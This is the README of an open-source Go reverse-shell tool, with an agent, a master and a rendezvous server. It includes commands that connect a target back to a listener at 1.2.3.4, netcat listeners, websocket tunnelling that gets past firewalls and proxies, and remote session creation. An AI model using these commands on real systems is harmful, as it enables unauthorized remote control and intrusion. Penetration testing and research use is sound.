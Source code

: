 **Disclaimer: This project is for research purposes only, and should only be used on authorized systems. Accessing a computer system or network without authorization or explicit permission is illegal. My primary goal was to write some Go.**

## Introduction
"A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved." ([source](http://resources.infosecinstitute.com/icmp-reverse-shell/))

Of course the simplest and most portable way is to use [Netcat](http://nc110.sourceforge.net/).

Here is a some features of this Go implementation:
* good portability
* can cross most proxies and firewalls with default configuration (using websockets, on https, on standard ports)
* auto-reconnection
* supports having multiple shells running on a single agent

This projects contains 3 applications that help you setting and interacting with remote shells:
* an `agent` to be started on the server where you want to open a shell
* a `master` waiting for agent connections and that allow you to interact with the shells
* a `rendezvous` application providing a central point where agents and masters meet when a direct connection is not possible/wanted (not mandatory)

## Installation
Download the binaries
```bash
curl -O -L -s /dev/null https://github.com/maxlaverse/reverse-shell/releases/download/v0.0.1/reverse-shell-0.0.1-linux-amd64.tar.gz | tar xvz
```

Or build from source
```bash
$ git clone https://github.com/maxlaverse/reverse-shell
$ cd reverse-shell && make
```

## Agent
The `agent` is an application that will start one or multiple shells and allow a master to control them.

```bash
Usage:
  agent [OPTIONS] <command>

Available commands:
  stdin      Start a stdin agent
  tcp        Start a tcp agent and connect to a remote master
  tcpdirect  Start a tcpdirect agent and listen on a tcp port waiting for orders
  websocket  Start a websocketCommand agent and connect to a remote master or rendez-vous
```

### stdin
Absolutely useless. It's basically just piping *stdin* to a process on the same machine.
```bash
Usage:
  agent [OPTIONS] stdin
```

### tcp
Connect to a remote host and execute every command received from it.
```bash
Usage:
  agent [OPTIONS] tcp [tcp-OPTIONS]

[tcp command options]
      -A, --address= Address [$ADDRESS]
```

Use the `listen` master command on a remote host to wait for connection:
```bash
# On the master (1.2.3.4)
$ nc -v -l -p 7777

# On the target
$ agent tcp -A 1.2.3.4:7777
```

### tcpdirect
Listen to a tcp port and execute every command received by a master.
```bash
Usage:
  agent [OPTIONS] tcpdirect [tcp-OPTIONS]

  [tcpdirect command options]
        -P, --port= Port [$PORT]
```

You can connect to it using netcat:
```bash
# On the agent (1.2.3.4)
$ agent tcpdirect -P 7777

# On the master
$ nc 1.2.3.4 7777
```

### websocket
Connect to a remote websocket and execute every command received.
The remote host can be a `master` or a `rendezvous`.
```bash
Usage:
  agent [OPTIONS] websocket [websocket-OPTIONS]

[websocket command options]
      -U, --url=  Url of the rendez-vous point. [$URL]
```

```bash
# On the master (1.2.3.4)
$ master listen -P 7777

# On the agent
$ agent websocket -U http://1.2.3.4:7777
```

Once an agent connects, you will be able to write commands in *stdin* that will be directly executed on the agent. You can also connect to a `rendezvous` point instead of a master.

You can also connect to the outside using a proxy:
```bash
$ http_proxy=http://your-proxy:3128 https_proxy=http://your-proxy:3128 agent websocket -U http://1.2.3.4:7777
```

## Rendez-vous
The `rendezvous` is an http server listening for `agents` and `masters`.
It can run behind a reverse-proxy and that reverse-proxy could to SSL offloading.

```bash
Usage:
  rendezvous [OPTIONS]

Application Options:
  -P, --port= Port [$PORT]
```

Start the `rendezvous` and the `agent`:
```bash
# On the rendezvous (1.2.3.4)
$ rendezvous -P 7777

# On the agent (3.4.5.6)
$ agent websocket -U http://1.2.3.4:7777
```

Open a shell and send some commands
```bash
# List the agents
$ ./master list-agents -U http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ master create -U http://1.2.3.4:7777 3.4.5.6:65000
Attaching to admiring_meitn
Connected to admiring_meitn
bash-3.2$
```

# Master
```bash
Usage:
  master [OPTIONS] <command>

Help Options:
  -h, --help  Show this help message

Available commands:
  attach         attach to an existing session
  create         create a new session on a given agent
  list-agents    list all the agents available on a rendez-vous
  list-sessions  list all the sessions available on a rendez-vous
  listen         listen for agents to connect using websocket
```

## Todo
* learn how to write proper tests
* add scp-like commands
* improve logging messages
* read variables from environment
* have agent send its IP  and rendez vous showing the proxy client one
